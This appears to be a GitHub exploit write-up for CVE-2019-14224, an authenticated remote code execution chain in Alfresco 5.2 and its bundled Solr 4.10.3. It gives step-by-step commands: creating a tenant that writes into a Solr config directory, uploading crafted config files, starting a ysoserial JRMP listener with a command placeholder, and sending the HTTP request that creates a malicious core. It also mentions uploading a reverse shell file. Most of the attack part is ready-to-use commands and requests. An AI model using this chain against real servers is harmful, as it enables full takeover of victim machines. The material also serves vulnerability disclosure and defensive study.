 # CVE-2019-14224: Alfresco Authenticated Remote Code Execution

By leveraging multiple components in the Alfresco (version 5.2) and Solr (version 4.10.3, ships by default with this version of Alfresco) applications, a exploit chain was observed that allows attacker to obtain remote code execution under the user the Alfresco/Solr software is running as.
<br/>
Because no priviledge downgrade is made at runtime, if the software is started by a high privilege authority (Ex: "root" or "NT Authority\System"), then a successfull attack will offer the attacker complete control of the victim machine.
<br/>
This exploit was tested works on both Windows and Linux machines.

### Requirements:
For successful exploitation of the vulnerability, the attacker will require:
- Access to Alfresco Admin Console (Admin Credentials Required)
- Access to Alfresco WebDAV or Alfresco Share
- Access to Solr interface

### STEPS:

1. First step in the attack requires to access Solr and identify the path to a valid core. We are interested in this path because Solr has a “Directory and File Reading” feature which will allow us to bypass the pseudo-random UUIDv4 file naming convention used by Alfresco when a user uploads a file in the web application.
<img src="Solr Core Path.png">

2. Knowing that the path "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/" is listed by Solr, we use the Alfresco Admin Console to create a new tenant, (username : admin@hexor, password : hexor), which will write the uploaded files into the listed location.
<br/>
Command:

```
create hexor hexor /opt/alfresco-community/solr4/workspace-SpacesStore/conf

```

<img src="Create Evil Tenant.png">

3. Next exploitation step is to upload the specially crafted Solr configuration files to the target machine. By logging in with the above created user (admin@hexor : hexor) to either the Alfresco Share or the Alfresco WebDAV, we can upload the files to a known location.
<img src="Alfresco Share.png">
<img src="Alfresco Webdav.png">
<strong>Example:</strong> Using Cadaver to upload files using WebDAV.
<img src="WebDAV Cadaver Upload.png">

4. We use Solr's listing feature in order to find the name of the uploaded files.
<img src="Solr Listing.png">
<strong>Note:</strong> Two files are mandatory to be uploaded:

- [solrconfig.xml](Solr%20Conf%20Files/solrconfig.xml) = the configuration files used by Solr to configure a core. This file points back to our ysoserial  listener via a "jmx" reference. 
- [schema.xml](Solr%20Conf%20Files/schema.xml) = file required by Solr when creating a core.
- Optionally a third file can be uploaded containing a reverse shell file (Ex. bash, python, perl, elf, exe, etc.), which will later be used with ysoserial.

5. Start ysoserial server:

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 4444 ROME "<COMMAND_TO_EXECUTE>"
```

6. Create Solr Core:

- Request:

```
GET /solr4/admin/cores?wt=json&indexInfo=false&action=CREATE&name=hexor_core&instanceDir=/&dataDir=/&config=/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/30cc3b35-c48e-47a3-b615-be37d8161ac1.bin&schema=/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/10222c0c-4d2d-4597-8d40-47e2081a2eb1.bin&collection=&shard=&_=1557914582265 HTTP/1.1
Host: <TARGET_IP>:8443
X-Requested-With: XMLHttpRequest
```

- Response:

```
HTTP/1.1 400 Bad Request
Server: Apache-Coyote/1.1
Content-Type: application/json;charset=UTF-8
Date: Wed, 15 May 2019 16:15:38 GMT
Connection: close
Content-Length: 165

{"responseHeader":{"status":400,"QTime":189},"error":{"msg":"Error CREATEing SolrCore 'hexor_core': Unable to create core [hexor_core] Caused by: null","code":400}}
```

<img src="RCE.png">

##### Side Note:
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/30cc3b35-c48e-47a3-b615-be37d8161ac1.bin" is the absolute path to the malicious "solrconfig.xml" file
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/10222c0c-4d2d-4597-8d40-47e2081a2eb1.bin" is the absolute path to the malicious "schema.xml" file
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/e9ceebf5-8aa4-466d-9402-d543a9f52946.bin" is the absolute path to the malicious python reverse shell file
